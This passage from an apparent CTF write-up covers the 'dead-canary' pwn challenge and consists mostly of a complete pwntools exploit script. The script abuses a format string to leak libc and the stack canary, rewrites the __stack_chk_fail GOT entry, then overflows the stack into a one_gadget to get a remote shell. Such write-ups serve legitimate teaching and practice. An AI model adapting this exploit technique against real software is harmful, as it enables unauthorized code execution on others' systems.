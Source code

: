 > The game masters could have really messed with us if there were `What` and `Hello` commands that did nothing but disco you or hang.

[exploit3.py](exploit3.py) is identical to [exploit2.py](exploit2.py) except that it just types `cat flag.txt` for you.


### Option 3: Avoid pivot and use `one_gadget`

[exploit4.py](exploit4.py):

```python
#!/usr/bin/python3

from pwn import *

binary = ELF('./dead-canary')
libc = ELF('/lib/x86_64-linux-gnu/libc.so.6')
context.update(arch='amd64',os='linux')
binary.symbols['main'] = 0x400737
libc.symbols['gadget'] = [0x4f2c5, 0x4f322, 0x10a38c][0]

offset = 6
canary = 39
libcleak = 41

#p = process(binary.path)
p = remote('2020.redpwnc.tf', 31744)

# first pass, inf. retries if we blow out canary, leak libc, leak canary
p.recvuntil('name: ')
payload  = b'%' + str(libcleak).encode().rjust(2,b'0') + b'$018p'
payload += b'%' + str(canary).encode().rjust(2,b'0') + b'$018p'
payload += fmtstr_payload(offset+2,{binary.got['__stack_chk_fail']:binary.symbols['main']},numbwritten=2*18)
payload += ((0x118 - 0x10 + 1) - len(payload)) * b'A'
p.send(payload)
p.recvuntil('Hello ')
_ = p.recv(18)
__libc_start_main = int(_,16) - 231
log.info('__libc_start_main: ' + hex(__libc_start_main))
baselibc = __libc_start_main - libc.symbols['__libc_start_main']
log.info('baselibc: ' + hex(baselibc))
libc.address = baselibc
_ = p.recv(16)
canary = int(_,16) << 8
log.info('canary: ' + hex(canary))

# final pass gadget
p.recvuntil('name: ')
payload  = (0x118 - 0x10) * b'A'
payload += p64(canary)
payload += 8 * b'B'
payload += p64(libc.symbols['gadget'])
p.send(payload)
p.interactive()
```
